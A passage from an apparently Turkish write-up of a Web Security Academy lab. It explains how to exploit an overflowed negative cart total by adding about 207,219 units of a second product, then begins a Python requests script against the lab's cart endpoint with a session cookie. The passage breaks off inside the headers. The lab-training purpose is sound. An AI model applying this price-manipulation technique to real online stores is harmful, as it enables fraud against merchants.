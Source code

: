 ![Untitled](0x14-e3d5610b147c47c69793fa5e6472953f/Untitled-20.png)

Ancak bu durumu diğer üründen daha fazla alarak telafi edebiliriz. Bu durumda toplam sepet tutarımız `-$19685852.01` olduğu için bu değeri ürün fiyatımıza bölerek kaç adet almamız gerektiğini hesaplayabiliriz. Eğer hesaplayacak olursak `$19685852.01/20.95=207219.494842 ****`sonucunu vermektedir. Yani `207219.494842` adet eklememiz gerekmektedir. Bu ürün için id değerini bulup programımıza ekleyecek olursak çalıştırdığımızda hedefimize ulaşabiliriz. Burada da 

Bunun için de `id` değerimiz 6 olduğu için kodumuz bu şekilde olacaktır:

```python
import requests
import concurrent.futures

url = "https://0a1400c804682cf1806e67490044007a.web-security-academy.net/cart"
headers = {
    "Host": "0a1400c804682cf1806e67490044007a.web-security-academy.net",
    "Cookie": "session=XvXbtrRCfmnJskV68dhCDMUZRjCo3x6d",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "https://0a1400c804682cf1806e67490044007a.web-security-academy.net",
    "Referer": "https://0a1400c804682cf1806e67490044007a.web-security-academy.net/cart",
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Dest": "document",
```